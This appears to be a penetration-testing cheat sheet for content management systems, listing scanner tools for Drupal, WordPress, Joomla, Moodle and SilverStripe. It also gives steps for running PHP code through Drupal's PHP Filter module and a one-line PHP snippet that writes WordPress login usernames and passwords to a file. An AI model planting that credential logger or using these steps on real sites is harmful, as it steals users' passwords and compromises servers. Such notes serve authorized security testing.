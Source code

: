 # CMS

## Drupal

### PHP Code Execution
- Enable​ PHP Filter​ module on the ​ Modules​
- Add content​ then to ​ Article
- Pasting PHP into the article body
- Changing the ​ Text format​ to ​PHP code​
- Clicking on ​ Preview​

### Tools
- [Droopescan - https://github.com/droope/droopescan](https://github.com/droope/droopescan)

## Wordpress
Log passwords from wp-login.php

```
file_put_contents("creds.txt",$_POST['log']." - ".$_POST['pwd'])
```

### Tools
- [WPScan - https://github.com/wpscanteam/wpscan](https://github.com/wpscanteam/wpscan)
- [Droopescan - https://github.com/droope/droopescan](https://github.com/droope/droopescan)
- [wpBullet - Static code analysis for WordPress Plugins/Themes](https://github.com/webarx-security/wpbullet)

## Joomla

### Tools
- [Droopescan - https://github.com/droope/droopescan](https://github.com/droope/droopescan)

## Moodle

### Tools
- [Droopescan - https://github.com/droope/droopescan](https://github.com/droope/droopescan)

## SilverStripe

### Tools
- [Droopescan - https://github.com/droope/droopescan](https://github.com/droope/droopescan)
